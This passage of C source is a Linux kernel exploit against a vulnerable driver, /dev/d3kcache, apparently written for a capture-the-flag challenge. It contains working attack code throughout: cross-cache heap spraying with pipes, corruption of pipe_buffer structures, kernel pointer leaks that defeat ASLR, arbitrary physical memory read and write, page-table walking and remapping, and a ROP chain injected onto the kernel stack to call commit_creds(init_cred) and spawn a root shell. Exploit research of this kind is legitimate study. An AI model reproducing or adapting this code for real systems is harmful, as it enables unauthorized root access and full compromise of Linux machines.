struct pipe_buffer write_target_pipe_buf = {0};     // Template pipe_buffer for arbitrary writes

//======================================================================
// DRIVER INTERFACE STRUCTURES
//======================================================================

// IOCTL request format for the vulnerable driver
struct kcache_cmd_t {
  size_t idx;
  size_t size;
  void *buf;
};

/*
 * ============================================================================
 * DEVICE INTERACTION PRIMITIVES
 * ============================================================================
 */

int kcache_alloc(size_t index, size_t size, char *buf) {
  struct kcache_cmd_t cmd = {
      .idx = index,
      .size = size,
      .buf = buf,
  };

  return ioctl(vuln_dev_fd, KCACHE_ALLOC, &cmd);
}

int kcache_append(size_t index, size_t size, char *buf) {
  struct kcache_cmd_t cmd = {
      .idx = index,
      .size = size,
      .buf = buf,
  };

  return ioctl(vuln_dev_fd, KCACHE_APPEND, &cmd);
}

int kcache_read(size_t index, size_t size, char *buf) {
  struct kcache_cmd_t cmd = {
      .idx = index,
      .size = size,
      .buf = buf,
  };

  return ioctl(vuln_dev_fd, KCACHE_READ, &cmd);
}

int kcache_free(size_t index) {
  struct kcache_cmd_t cmd = {
      .idx = index,
  };

  return ioctl(vuln_dev_fd, KCACHE_FREE, &cmd);
}

/*
 * ============================================================================
 * PIPE INFRASTRUCTURE MANAGEMENT
 * ============================================================================
 */

// Create a pipe and register its file descriptors in the global tracking array
void create_pipe(int pipe_idx) {
    if (pipe(pipe_fds[pipe_idx]) < 0) {
        log.error("Pipe creation failed at index %d", pipe_idx);
        exit(EXIT_FAILURE);
    }
}

// Dynamically resize pipe buffer capacity to influence underlying slab cache selection
// Forces pipe buffers into specific kmalloc caches for controlled heap layout
void resize_pipe_buffer(int pipe_idx, int new_size) {
    if (fcntl(pipe_fds[pipe_idx][0], F_SETPIPE_SZ, new_size) < 0) {
        log.error("Pipe resize failed for pipe %d to size 0x%x", pipe_idx, new_size);
        exit(EXIT_FAILURE);
    }
}

/*
 * ============================================================================
 * RESOURCE CLEANUP
 * ============================================================================
 */

// Release all acquired system resources including pipes and device handles
// Critical for preventing resource leaks during exploit iteration
void cleanup_resources(void) {
    for (int i = 0; i < MAX_PIPES + 0x70; i++) {
        if (pipe_fds[i][0] > 0) close(pipe_fds[i][0]);
        if (pipe_fds[i][1] > 0) close(pipe_fds[i][1]);
    }
    if (vuln_dev_fd > 0) close(vuln_dev_fd);
}

/*
 * ============================================================================
 * ARBITRARY PHYSICAL MEMORY ACCESS PRIMITIVES
 * ============================================================================
 */

// Configure interconnected pipe_buffer chain to enable arbitrary physical R/W
// Chains multiple self-referential pipes to redirect memory accesses
void setup_arbitrary_access_chain(void) {
    // Configure chain_pipe_3->pipe_buffer to point into controlled region
    chain_pipe_buf.offset = 192 * 3;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_2_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // Configure chain_pipe_4->pipe_buffer to point into controlled region
    chain_pipe_buf.offset = 192 * 2;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_3_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // Configure chain_pipe_2->pipe_buffer to point into controlled region
    chain_pipe_buf.offset = 0;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);

    // Clear intermediate buffer space to align subsequent writes
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[chain_pipe_4_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    // Finalize third pipe configuration to complete the chain
    chain_pipe_buf.offset = 192 * 3;
    chain_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &chain_pipe_buf, PIPE_BUFFER_SIZE);
}

// Read arbitrary physical memory via forged pipe_buffer chain
// Routes read operations through manipulated pipe buffers to target physical addresses
void arbitrary_phys_read(uint64_t target_page, uint32_t page_offset, void *output_buffer, uint64_t read_length) {
    debug_enabled = 0;

    // Stage 1: Reset fourth pipe to known alignment state
    read_target_pipe_buf.offset = 192 * 2;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_3_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // Stage 2: Redirect second pipe to target physical address
    read_target_pipe_buf.page = (struct page*)target_page;
    read_target_pipe_buf.offset = page_offset;
    read_target_pipe_buf.len = 0x1ff0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // Stage 3: Flush alignment padding to maintain pipe buffer layout
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[chain_pipe_4_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    // Stage 4: Restore third pipe to safe state while preserving redirection
    read_target_pipe_buf.page = fake_pipe_buf.page;
    read_target_pipe_buf.offset = 192 * 3;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // Stage 5: Extract data via second pipe read operation
    read(pipe_fds[chain_pipe_2_idx][0], output_buffer, read_length);
}

// Write arbitrary physical memory via forged pipe_buffer chain
// Routes write operations through manipulated pipe buffers to target physical addresses
void arbitrary_phys_write(uint64_t target_page, uint32_t page_offset, void *input_data, uint64_t write_length) {
    debug_enabled = 0;

    // Stage 1: Reset fourth pipe to known alignment state
    read_target_pipe_buf.offset = 192 * 2;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_3_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // Stage 2: Redirect second pipe to target physical address
    read_target_pipe_buf.page = (struct page*)target_page;
    read_target_pipe_buf.offset = page_offset;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // Stage 3: Flush alignment padding to maintain pipe buffer layout
    memset(pipe_buffer_data, 0, 96);
    write(pipe_fds[chain_pipe_4_idx][1], pipe_buffer_data, 96 - PIPE_BUFFER_SIZE);

    // Stage 4: Restore third pipe to safe state while preserving redirection
    read_target_pipe_buf.page = fake_pipe_buf.page;
    read_target_pipe_buf.offset = 192 * 3;
    read_target_pipe_buf.len = 0;
    write(pipe_fds[chain_pipe_4_idx][1], &read_target_pipe_buf, PIPE_BUFFER_SIZE);

    // Stage 5: Inject data via second pipe write operation
    write(pipe_fds[chain_pipe_2_idx][1], input_data, write_length);
}

/*
 * ============================================================================
 * KERNEL MEMORY DISCOVERY
 * ============================================================================
 */

// Determine vmemmap_base by scanning physical memory for kernel text signature
// Uses known secondary_startup_64 offset to validate candidate addresses
void find_vmemmap_base(void){
    // Start scan from page-aligned address derived from leaked page pointer
    vmemmap_base = (size_t)fake_pipe_buf.page & 0xfffffffff0000000;
    size_t round = 0;

    for (round = 0; ;round++) {
        size_t candidate_value[4] = {0};
        arbitrary_phys_read((vmemmap_base + 0x2740), 0, candidate_value, 0x10);

        // Verify candidate matches secondary_startup_64 signature and kernel base constraints
        if (candidate_value[0] > kernel_base && ((candidate_value[0] & 0xfff) == (SECONDARY_STARTUP_64 & 0xfff))) {
            log.success("Located secondary_startup_64 signature in physmem, addr=0x%lx", candidate_value[0]);
            break;
        }
        vmemmap_base -= 0x10000000; // Step backward through physical memory regions
    }
    log.success("Successfully mapped vmemmap_base address: 0x%lx", vmemmap_base);
}

// Scan physical memory to locate current task_struct instances
// Identifies tasks by comm string patterns and validates surrounding task_struct fields
void scan_for_task_structs(void) {
    size_t round = 0;
    char page_content_buffer[0x1000] = {0};
    size_t *current_comm_ptr;

    // Set unique process identifier for reliable memory scanning
    prctl(PR_SET_NAME, "pwn4kernel");
    log.info("Scanning physical memory pages to identify active task_struct instances");

    for (round = 0; ; round++) {
        memset(page_content_buffer, 0, 0x1000);
        arbitrary_phys_read((vmemmap_base + round * 0x40), 0, page_content_buffer, 0xf00);

        current_comm_ptr = (size_t*)memmem(page_content_buffer, 0xf00, "pwn4kernel", 10);

        // Validate current task_struct by checking critical field integrity
        if (current_comm_ptr && (current_comm_ptr[-2] > 0xffff888000000000)      // cred validity
            && (current_comm_ptr[-3] > 0xffff888000000000)                       // real_cred validity
            && (current_comm_ptr[-57] > 0xffff888000000000)                      // real_parent validity
            && (current_comm_ptr[-56] > 0xffff888000000000)) {                   // parent validity
            parent_task_addr = current_comm_ptr[-57];                            // Capture parent pointer

            // Derive task_struct address from ptraced field pointer
            current_task_addr = current_comm_ptr[-50] - 0x9e0;

            // Calculate page_offset_base from physical memory mapping
            page_offset_base = (current_comm_ptr[-50] & 0xfffffffffffff000) - round * 0x1000;
            page_offset_base &= 0xfffffffff0000000;
            current_task_page_addr = (vmemmap_base + round * 0x40);
            log.success("[Round %d] Mapped current task_struct to phys page: 0x%lx", round, current_task_page_addr);
            log.success("[Round %d] Resolved page_offset_base mapping addr: 0x%lx", round, page_offset_base);
            log.success("[Round %d] Captured parent task_struct virt addr: 0x%lx", round, parent_task_addr);
            log.success("[Round %d] Resolved current task_struct virt addr: 0x%lx", round, current_task_addr);
            break;
        }
    }
}

/*
 * ============================================================================
 * PRIVILEGE ESCALATION
 * ============================================================================
 */

#define PTE_OFFSET 12
#define PMD_OFFSET 21
#define PUD_OFFSET 30
#define PGD_OFFSET 39

#define PT_ENTRY_MASK 0b111111111UL
#define PTE_MASK (PT_ENTRY_MASK << PTE_OFFSET)
#define PMD_MASK (PT_ENTRY_MASK << PMD_OFFSET)
#define PUD_MASK (PT_ENTRY_MASK << PUD_OFFSET)
#define PGD_MASK (PT_ENTRY_MASK << PGD_OFFSET)

#define PTE_ENTRY(addr) ((addr >> PTE_OFFSET) & PT_ENTRY_MASK)
#define PMD_ENTRY(addr) ((addr >> PMD_OFFSET) & PT_ENTRY_MASK)
#define PUD_ENTRY(addr) ((addr >> PUD_OFFSET) & PT_ENTRY_MASK)
#define PGD_ENTRY(addr) ((addr >> PGD_OFFSET) & PT_ENTRY_MASK)

#define PAGE_ATTR_RW (1UL << 1)
#define PAGE_ATTR_NX (1UL << 63)

// Kernel page table management state tracking
size_t pgd_addr;                            // Page global directory address
size_t mm_struct_addr;                      // Memory management structure address
size_t *mm_struct_buf;                      // Buffer for mm_struct data
size_t stack_addr;                          // Current kernel stack virtual address
size_t stack_addr_another;                  // Alternate kernel stack virtual address
size_t stack_page;                          // Physical page containing kernel stack
size_t mm_struct_page;                      // Physical page containing mm_struct

// Traverse 4-level paging hierarchy to resolve virtual address to physical address
// Returns physical page frame number for the given virtual address
size_t vaddr_resolve(size_t pgd_addr, size_t vaddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pte_addr, pte_val;

  // Level 4: Page Global Directory -> Page Upper Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // Level 3: Page Upper Directory -> Page Middle Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // Level 2: Page Middle Directory -> Page Table Entry
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_addr = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pte_addr += page_offset_base;
  log.debug("Resolved PMD(%#lx)[%#lx] -> PTE: %#lx", pmd_addr, PMD_ENTRY(vaddr), pte_addr);

  // Level 1: Page Table Entry -> Physical Page Frame
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_val = (page_table_buffer[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  log.debug("Resolved PTE(%#lx)[%#lx] -> Physical frame: %#lx", pte_addr, PTE_ENTRY(vaddr), pte_val);
  return pte_val;
}

// Optimized virtual address resolution for 3-level paging (legacy PAE mode)
// Skips PTE level for 2MB large pages with 3-level hierarchy
size_t vaddr_resolve_for_3_level(size_t pgd_addr, size_t vaddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pmd_value;

  // Level 4: Page Global Directory -> Page Upper Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // Level 3: Page Upper Directory -> Page Middle Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // Level 2: Page Middle Directory -> 2MB large page frame
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_value = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  log.debug("Resolved PMD(%#lx)[%#lx] -> value: %#lx", pmd_addr, PMD_ENTRY(vaddr), pmd_value);
  return pmd_value;
}

// Remap virtual address to new physical address by modifying page table entries
// Establishes writable mapping for target virtual address
void vaddr_remapping(size_t pgd_addr, size_t vaddr, size_t paddr) {
  size_t page_table_buffer[0x1000];
  size_t pud_addr, pmd_addr, pte_addr, pte_val;

  // Level 4: Page Global Directory -> Page Upper Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pgd_addr), 0x1000, page_table_buffer, 0xf00);
  pud_addr = (page_table_buffer[PGD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pud_addr += page_offset_base;
  log.debug("Resolved PGD(%#lx)[%#lx] -> PUD: %#lx", pgd_addr, PGD_ENTRY(vaddr), pud_addr);

  // Level 3: Page Upper Directory -> Page Middle Directory
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pud_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pmd_addr = (page_table_buffer[PUD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pmd_addr += page_offset_base;
  log.debug("Resolved PUD(%#lx)[%#lx] -> PMD: %#lx", pud_addr, PUD_ENTRY(vaddr), pmd_addr);

  // Level 2: Page Middle Directory -> Page Table Entry
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pmd_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_addr = (page_table_buffer[PMD_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  pte_addr += page_offset_base;
  log.debug("Resolved PMD(%#lx)[%#lx] -> PTE: %#lx", pmd_addr, PMD_ENTRY(vaddr), pte_addr);

  // Level 1: Read current PTE value before modification
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_read(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xf00);
  pte_val = (page_table_buffer[PTE_ENTRY(vaddr)] & (~0xfff)) & (~PAGE_ATTR_NX);
  log.debug("Resolved PTE(%#lx)[%#lx] -> Physical frame: %#lx", pte_addr, PTE_ENTRY(vaddr), pte_val);

  // Update PTE with new physical address and writable permissions
  page_table_buffer[PTE_ENTRY(vaddr)] = paddr | 0x8000000000000867; // Set writable flag
  log.debug("Updated PTE(%#lx)[%#lx] -> Physical frame: %#lx",
      pte_addr, PTE_ENTRY(vaddr), page_table_buffer[PTE_ENTRY(vaddr)]);
  arbitrary_phys_write(direct_map_addr_to_page_addr(pte_addr), 0, page_table_buffer, 0x1000);
  arbitrary_phys_write(direct_map_addr_to_page_addr(pte_addr), 0x1000, &page_table_buffer[512], 0xf00);
}

// Extract process memory management structures from task_struct
// Resolves kernel page table root (PGD) and stack addresses for ROP targeting
void pgd_vaddr_resolve(void) {
  size_t round = 0;
  size_t page_buffer[0x1000];
  size_t *current_comm_ptr = NULL;

  log.info("Reading current task_struct via physical memory mapping");
  for (round = 0; ; round++) {
      memset(page_buffer, 0, 0x1000);
      arbitrary_phys_read(((current_task_page_addr & (~0xfff)) + round * 0x40), 0, page_buffer, 0xf00);

      current_comm_ptr = (size_t*)memmem(page_buffer, 0xf00, "pwn4kernel", 10);

      // Validate current task_struct by checking critical field integrity
      if (current_comm_ptr && (current_comm_ptr[-2] > 0xffff888000000000)      // cred validity
          && (current_comm_ptr[-3] > 0xffff888000000000)                       // real_cred validity
          && (current_comm_ptr[-57] > 0xffff888000000000)                      // real_parent validity
          && (current_comm_ptr[-56] > 0xffff888000000000)) {                   // parent validity
          mm_struct_addr = current_comm_ptr[-74];
          stack_addr = current_comm_ptr[-362];
          log.success("[Round %d] Resolved kernel stack virtual address: 0x%lx", round, stack_addr);
          log.success("[Round %d] Resolved mm_struct virtual address: 0x%lx", round, mm_struct_addr);
          if (mm_struct_addr > 0xffff888000000000 && stack_addr > 0xffff888000000000) {
              break;
          }
      }
  }

  mm_struct_page = direct_map_addr_to_page_addr(mm_struct_addr);
  log.success("[Round %d] Calculated mm_struct physical page: 0x%lx", round, mm_struct_page);

  // Read mm_struct to extract page table root
  arbitrary_phys_read(mm_struct_page, 0, page_buffer, 0xf00);
  mm_struct_buf = (size_t *)((size_t)page_buffer + (mm_struct_addr & 0xfff));
  pgd_addr = mm_struct_buf[9]; // mm->pgd field index
  log.success("[Round %d] Extracted kernel page table root (PGD): 0x%lx", round, pgd_addr);
}

#ifndef PAGE_SIZE
#define PAGE_SIZE 0x1000
#endif

#ifndef PAGE_MASK
#define PAGE_MASK (~(PAGE_SIZE - 1))
#endif

// Kernel symbol offsets for ROP chain construction
#define COMMIT_CREDS 0xffffffff81128bf0
#define SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE 0xffffffff82201a90
#define INIT_CRED 0xffffffff83079ee8
#define POP_RDI_RET 0xffffffff819bf1ab
#define RET 0xffffffff8100039f

/**
 * Kernel privilege escalation via ROP chain injection
 *
 * This method constructs a ROP chain on the kernel stack to elevate privileges
 * to root. The exploit uses arbitrary physical memory read/write to locate the
 * kernel stack and overwrite return addresses with a carefully crafted ROP chain.
 *
 * Alternative approaches considered:
 * 1. Direct task_struct modification (simpler but requires precise offsets)
 * 2. Pipe write stack ROP (requires no CONFIG_RANDOMIZE_KSTACK_OFFSET_DEFAULT)
 *
 * The ROP approach provides a more general exploitation method that doesn't
 * require detailed knowledge of kernel data structure layouts.
 */
void privilege_escalation_by_rop_chain(void) {
  size_t rop_chain[0x1000];
  size_t rop_index = 0;

retry_exploit:

  // Step 1: Resolve kernel page table and stack addresses
  log.info("Resolving kernel page table hierarchy for stack manipulation");
  pgd_vaddr_resolve();

  // Step 2: Locate physical page containing kernel stack
  log.info("Traversing page tables to locate kernel stack physical page");

  /**
   * Kernel stacks are allocated in vmalloc region and may not be physically contiguous.
   * We target the last page of the 4-page kernel stack to avoid interfering with
   * active stack frames while ensuring our ROP chain will be executed on return.
   */
  stack_addr_another = vaddr_resolve(pgd_addr, stack_addr + PAGE_SIZE * 3);
  stack_addr_another &= (~PAGE_ATTR_NX); // Clear NX bit for executable mapping
  stack_addr_another += page_offset_base;
  log.success("Located alternate kernel stack mapping: 0x%lx", stack_addr_another);

  stack_page = direct_map_addr_to_page_addr(stack_addr_another);
  log.info("Calculated kernel stack target page: 0x%lx", stack_page);

  // Step 3: Construct ROP chain with stack pivot preparation
  log.info("Constructing ROP chain for privilege escalation");

  // Fill initial stack space with RET sled for alignment
  for (int i = 0; i < ((0x1000 - 0x100) / 8); i++) {
    rop_chain[rop_index++] = RET + kernel_offset;
  }

  // Privilege escalation ROP chain components
  rop_chain[rop_index++] = POP_RDI_RET + kernel_offset;           // pop rdi; ret
  rop_chain[rop_index++] = INIT_CRED + kernel_offset;             // init_cred address
  rop_chain[rop_index++] = COMMIT_CREDS + kernel_offset;         // commit_creds(init_cred)
  rop_chain[rop_index++] = SWAPGS_RESTORE_REGS_AND_RETURN_TO_USERMODE + 0x42 + kernel_offset;
  rop_chain[rop_index++] = *(size_t *)"BinRacer";                // dummy rax
  rop_chain[rop_index++] = *(size_t *)"BinRacer";                // dummy rdi
  rop_chain[rop_index++] = (size_t)get_root_shell;               // return to shell function
  rop_chain[rop_index++] = user_cs;                              // saved cs
  rop_chain[rop_index++] = user_rflags;                          // saved rflags
  rop_chain[rop_index++] = (user_sp + 8);                        // adjusted stack pointer
  rop_chain[rop_index++] = user_ss;                             // saved ss

  // Step 4: Write ROP chain to kernel stack via physical memory access
  log.info("Injecting ROP chain onto kernel stack page");
  log.info("Kernel stack target page: 0x%lx, offset: 0x0", stack_page);

  fflush(stdout);
  sleep(5); // Brief pause for system stabilization

  arbitrary_phys_write(stack_page, 0, rop_chain, 0xff0);
  log.success("ROP chain successfully injected into kernel stack");

  // Step 5: Trigger kernel execution of ROP chain
  // The chain will execute on next kernel-to-user mode transition
  // If we reach this point, the exploit failed and we retry
  log.warn("ROP chain injection completed - waiting for privilege escalation");
  log.warn("If root shell not obtained, retrying exploitation...");
  goto retry_exploit;
}

/*
 * ============================================================================
 * EXPLOIT PHASE IMPLEMENTATIONS
 * ============================================================================
 */

// Phase 1: Initialize exploit environment and driver interface
// Sets up CPU affinity, saves execution state, and opens the vulnerable device
void setup_environment(void) {
    bind_core(0);
    save_status();

    log.info("Opening vulnerable character device /dev/d3kcache for exploitation");
    vuln_dev_fd = open("/dev/d3kcache", O_RDWR);
    if (vuln_dev_fd < 0) {
        log.error("Failed to access device - check module load status and permissions");
        exit(EXIT_FAILURE);
    }
    log.success("Successfully initialized vulnerable device interface [fd: %d]", vuln_dev_fd);

    log.info("Preparing page spraying infrastructure for heap manipulation phase");
    prepare_pgv_system();
}

// Phase 2: Shape heap memory layout for precise slab targeting
// Sprays pipes and pages to create controlled fragmentation and object placement
void prepare_heap_layout(void) {
    log.info("Writing identification markers to pipe buffers for corruption detection");
    for (int i = 0; i < MAX_PIPES + 0x70; i++) {
        create_pipe(i);
        pipe_buffer_data[0] = *(size_t*)"BinRacer";         // Leading magic value for validation
        pipe_buffer_data[1] = i;                            // Pipe index identifier
        pipe_buffer_data[192 / 8] = *(size_t*)"BinRacer";   // Trailing magic value for validation
        pipe_buffer_data[(192 / 8) + 1] = i;                // Index verification marker
        write(pipe_fds[i][1], pipe_buffer_data, 192 * 2);
    }

    log.info("Spraying %d order-3 socket pages to apply heap memory pressure", INITIAL_PAGE_SPRAY);
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i++) {
        if (alloc_page(i, 0x1000 * 8, 1) < 0) {
            log.error("Page allocation failed at index %d during heap spraying", i);
            exit(EXIT_FAILURE);
        }
    }

    log.info("Creating strategic memory fragmentation by freeing alternating pages");
    for (int i = 1; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);

    log.info("Redirecting kmalloc-4k pipe buffers into freed memory regions via resize operations");
    for (int i = 0; i < MAX_PIPES; i++) resize_pipe_buffer(i, 0x1000 * 64);

    log.info("Releasing alternate sprayed pages to isolate target kmalloc-2k slab page");
    for (int i = 0; i < INITIAL_PAGE_SPRAY; i += 2) free_page(i);
    log.success("Completed heap layout engineering for cross-cache targeting");
}

// Phase 3-A: Execute cross-cache overflow against target slab
// Occupies target slab pages and triggers overflow into adjacent cache
void trigger_cross_cache_overflow(void) {
    // kmlloc-4k / order 3
    for (int i = MAX_PIPES; i < MAX_PIPES + 0x70; i++) resize_pipe_buffer(i, 0x1000 * 64);
    log.info("Occupying %d isolation pages with vulnerable driver kmalloc chunks", FINAL_PAGE_SPRAY);
    for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
        memset(overflow_payload, 0, 2048);
        kcache_alloc(i, 2048 - 8, overflow_payload);
    }
    log.info("Building cross-cache overflow payload with trailing null termination");
    for (int i = 0; i < FINAL_PAGE_SPRAY; i++) {
        memset(overflow_payload, 0, 2048);
        kcache_append(i, 8, overflow_payload);
    }
    log.success("Cross-cache overflow payload deployed to target slab page");
}

// Phase 3-B: Identify corrupted pipe objects resulting from overflow
// Scans pipe array for magic value corruption indicating successful slab overflow
int identify_corrupted_pipes(void) {
    log.info("Inspecting pipe array for metadata corruption caused by overflow");

    for (int i = 0; i < MAX_PIPES; i++) {
        memset(pipe_buffer_data, 0, 192);
        read(pipe_fds[i][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

        // Detect magic value overwrite indicating successful cross-cache overflow
        if (pipe_buffer_data[0] == 0x72656361526e6942 && pipe_buffer_data[1] != i) {
            victim_pipe_idx = pipe_buffer_data[1];
            overlap_pipe_idx = i;

            if(debug_enabled) {
                hex_dump("Corrupted pipe_buffer metadata dump:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
            }
            log.success("Found corruption pair - Victim pipe: %d, Controller pipe: %d",
                        victim_pipe_idx, overlap_pipe_idx);
        }
        // Consume residual pipe data to reset read pointers
        read(pipe_fds[i][0], pipe_buffer_data, 192 - PIPE_BUFFER_SIZE);
    }

    if (overlap_pipe_idx == -1) {
        log.error("No pipe corruption detected - cross-cache overflow failed to land");
        return -1;
    }
    return 0;
}

// Phase 3-C: Extract kernel metadata from corrupted pipe_buffer
// Reads leaked kernel pointers from smashed pipe_buffer to establish runtime addresses
void extract_kernel_pointers(void) {
    log.info("Reading kernel pointer metadata from corrupted pipe_buffer structure");

    // Release victim pipe to destabilize heap state and prevent interference
    // free pipe_buffer->page to order 0
    close(pipe_fds[victim_pipe_idx][0]);
    close(pipe_fds[victim_pipe_idx][1]);

    // Stabilize heap layout by adjusting surviving pipe buffer sizes
    for (int i = 0; i < MAX_PIPES; i++) {
        if(i == victim_pipe_idx || i == overlap_pipe_idx) continue;
        // kmalloc-192 / order 0
        resize_pipe_buffer(i, 0x1000 * 4);
    }

    // Extract kernel pointers from overlapping pipe_buffer structure
    memset(pipe_buffer_data, 0, PIPE_BUFFER_SIZE);
    read(pipe_fds[overlap_pipe_idx][0], pipe_buffer_data, PIPE_BUFFER_SIZE);

    struct pipe_buffer leaked_pipe_buf = {0};
    leaked_pipe_buf.page = (struct page *)pipe_buffer_data[0];
    leaked_pipe_buf.offset = (int)(pipe_buffer_data[1] & 0xFFFFFFFFUL);
    leaked_pipe_buf.len = (int)(pipe_buffer_data[1]>>32);
    leaked_pipe_buf.ops = (struct pipe_buf_operations *)pipe_buffer_data[2];
    leaked_pipe_buf.flags = (int)(pipe_buffer_data[3] & 0xFFFFFFFFUL);
    leaked_pipe_buf.private = pipe_buffer_data[4];

    // Calculate kernel base using known static symbol offset
    kernel_offset = pipe_buffer_data[2] - ANON_PIPE_BUF_OPS;
    kernel_base += kernel_offset;

    if(debug_enabled) {
        hex_dump("Raw kernel pointer extraction from corrupted pipe_buffer:", (char *)pipe_buffer_data, PIPE_BUFFER_SIZE + 0x8);
    }

    log.success("Recovered pipe_buffer->page kernel pointer: 0x%lx", leaked_pipe_buf.page);
    log.success("Recovered pipe_buffer->ops function pointer: 0x%lx", leaked_pipe_buf.ops);
    log.success("Calculated runtime kernel base address: 0x%lx", kernel_base);
    log.success("Resolved kernel ASLR offset delta: 0x%lx", kernel_offset);

    // Construct primary forged pipe_buffer for controlled memory access
    memset(&fake_pipe_buf, 0, PIPE_BUFFER_SIZE);
    memcpy(&fake_pipe_buf, &leaked_pipe_buf, PIPE_BUFFER_SIZE);
    fake_pipe_buf.page = (struct page *)((uint64_t)(fake_pipe_buf.page) & (~0xff));
    write(pipe_fds[overlap_pipe_idx][1], &fake_pipe_buf, PIPE_BUFFER_SIZE);

    if(debug_enabled) {
        hex_dump("Primary forged pipe_buffer configuration:", (char *)&fake_pipe_buf, PIPE_BUFFER_SIZE + 0x8);
    }
}

// Phase 3-D: Build arbitrary physical R/W primitives via pipe chain
// Establishes interconnected self-referential pipes for arbitrary memory operations
int build_arbitrary_rw_chain(void) {
    log.info("Constructing arbitrary physical memory access pipeline via pipe chain");

    // Identify secondary corruption pair for additional control
    for (int i = 0; i < MAX_PIPES; i++) {
